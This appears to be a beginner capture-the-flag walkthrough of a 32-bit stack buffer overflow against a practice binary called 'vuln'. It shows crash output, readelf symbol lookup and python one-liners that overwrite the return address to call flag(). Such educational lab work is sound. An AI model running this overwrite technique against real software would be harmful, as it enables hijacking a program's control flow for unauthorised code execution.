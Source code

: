 This is the first program, where we look into buffer overflows. 

***Objective***

Print the data inside flag()

If this is your first time solving a buffer overflow, I suggest: https://www.youtube.com/watch?v=1S0aBV-Waeo

Attempt the question, after watching the video, if you are still unable to solve the problem, ping me, I ll share my writeup.





>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
>>>./vuln
Give me a string and lets see what happens: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x41414141 !
Segmentation fault
>>>dmesg | tail
[  190.764070] rndis_host 2-2:1.0 usb0: register 'rndis_host' at usb-0000:00:1d.7-2, RNDIS device, b2:7e:94:04:61:ec
[  190.764109] usbcore: registered new interface driver rndis_host
[  309.720849] vuln[1599]: segfault at 61616161 ip 0000000061616161 sp 00000000fffcf330 error 14 in libc-2.31.so[f7ced000+1e2000]
[  309.720866] Code: Bad RIP value.
[  317.817127] vuln[1602]: segfault at 41414141 ip 0000000041414141 sp 00000000ffbf5e60 error 14 in libc-2.31.so[f7cea000+1e2000]
[  317.817145] Code: Bad RIP value.
[  365.020859] perf: interrupt took too long (2521 > 2500), lowering kernel.perf_event_max_sample_rate to 79250
[  437.673486] perf: interrupt took too long (3172 > 3151), lowering kernel.perf_event_max_sample_rate to 63000
[  726.064188] vuln[2008]: segfault at 41414141 ip 0000000041414141 sp 00000000ffaf0de0 error 14 in libc-2.31.so[f7dc2000+1e2000]
[  726.064205] Code: Bad RIP value.
>>>readelf -s vuln
64: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
    65: 0804a040     0 NOTYPE  GLOBAL DEFAULT   25 _end
    66: 08048510     2 FUNC    GLOBAL HIDDEN    14 _dl_relocate_sta[...]
    67: 080484d0     0 FUNC    GLOBAL DEFAULT   14 _start
    68: 08048798     4 OBJECT  GLOBAL DEFAULT   16 _fp_hw
    69: 00000000     0 OBJECT  GLOBAL DEFAULT  UND stdout@@GLIBC_2.0
    70: 0804a03c     0 NOTYPE  GLOBAL DEFAULT   25 __bss_start
    71: 0804869e   118 FUNC    GLOBAL DEFAULT   14 main
    72: 0804a03c     0 OBJECT  GLOBAL HIDDEN    24 __TMC_END__
    73: 00000000     0 FUNC    GLOBAL DEFAULT  UND setresgid@@GLIBC_2.0
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
    75: 080483e8     0 FUNC    GLOBAL DEFAULT   11 _init

here the flag is the function we need to run its memory location is 080485e6
>>>python -c "import struct; print repr(struct.pack('<I',0x080485e6))"
'\xe6\x85\x04\x08'
>>>python -c "import struct; print 'A'*65 + struct.pack('<I',0x080485e6)" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
>>>python -c "import struct; print 'A'*67 + struct.pack('<I',0x080485e6)" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
>>>python -c "import struct; print 'A'*68 + struct.pack('<I',0x080485e6)" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.





